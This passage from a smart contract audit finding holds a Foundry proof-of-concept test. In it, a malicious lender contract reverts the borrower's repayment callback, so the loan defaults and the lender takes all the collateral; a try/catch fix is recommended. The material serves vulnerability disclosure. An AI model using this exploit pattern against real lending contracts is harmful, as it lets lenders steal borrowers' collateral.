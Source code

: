 ```solidity
    // Lender creates MaliciousLender contract and clear the loan request
    vm.startPrank(lender);
    MaliciousLender maliciousLender = new MaliciousLender(address(coolerFactory));
    debt.approve(address(maliciousLender), reqAmount_);
    uint256 loanID = maliciousLender.clearRequest(address(cooler), reqID);
    vm.stopPrank();

    // block.timestamp < loan expiry
    vm.warp(block.timestamp + 15 days);
    console2.log("15 days passed...");

    vm.startPrank(owner);
    // Aprove debt so that it can be transferred by cooler
    debt.approve(address(cooler), repayAmount_);
    // Owner can't repay the loan because transactionis reverted by maliciousLender
    vm.expectRevert("Hahah you cannot repay");
    cooler.repayLoan(loanID, repayAmount_);
    vm.stopPrank();
    console2.log("[-] Owner was not able to repay his loan");

    // block.timestamp > loan expiry
    vm.warp(block.timestamp + DURATION + 1);
    console2.log("Few days passed, loan is now exipred...");

    // Lender claims the defaulted loan
    vm.startPrank(lender);
    debt.approve(address(maliciousLender), reqAmount_);
    maliciousLender.claimDefaulted(address(cooler), loanID);
    vm.stopPrank();
    console2.log("[+] Lender claimed faulted loan");

    assertEq(collateral.balanceOf(address(lender)), initCoolerCollat); // Lender got all the collateral tokens
    assertEq(collateral.balanceOf(address(cooler)), 0); // Lender got all the collateral tokens
    console2.log("collateral: cooler balance = ",collateral.balanceOf(address(cooler)));
    console2.log("collateral: lender balance = ",collateral.balanceOf(address(lender)));
}
```

## Code Snippet
https://github.com/sherlock-audit/2023-08-cooler-MiniGlome/blob/e8cbb79c0c30f925a94f2b6f763cd64a1104df19/Cooler/src/Cooler.sol#L185

## Tool used

Manual Review + Foundry

## Recommendation
One way to prevent this issue is by adding a try/catch statement around the callback statements (apply this to `onRoll()` too).
